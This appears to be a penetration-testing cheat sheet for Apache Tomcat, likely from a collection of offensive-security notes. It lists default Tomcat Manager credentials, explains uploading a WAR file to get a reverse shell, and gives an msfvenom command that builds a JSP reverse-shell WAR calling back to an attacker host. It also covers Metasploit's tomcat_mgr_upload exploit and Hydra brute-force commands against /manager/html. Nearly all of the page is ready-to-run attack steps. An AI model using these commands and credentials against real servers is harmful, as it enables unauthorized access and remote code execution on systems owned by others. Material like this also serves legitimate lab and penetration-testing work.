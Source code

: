 # Tomcat



## Exploitation Checks

* Open Tomcat Manager
  * Check to see if any of the default credentials will work to log in. Common ones:
    * `admin:admin`
    * `tomcat:tomcat`
    * `admin:<NOTHING>`
    * `admin:s3cr3t`
    * `tomcat:s3cr3t`
    * `admin:tomcat`
  * If so, we may be able to upload a war file to get a reverse shell.
  * After upload and deploying the war file, we can start a `netcat` listener, then select the war file from the Application Path column in Tomcat.
* Open Tomcat Administration
  * Check to see if any of the default credentials will work to log in.
* Check **/manager/status** path to look for version details and then known exploits especially if you cannot access **/manager/html**.

### MSFvenom Reverse Shell

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shellw.war
```

### Metasploit

```bash
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost <IP>
msf exploit(multi/http/tomcat_mgr_upload) > set rport <port>
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername <username>
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword <password>
msf exploit(multi/http/tomcat_mgr_upload) > exploit
```

## Brute Force

### Hydra

```bash
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
```

### Metasploit

```bash
msf> use auxiliary/scanner/http/tomcat_mgr_login
```
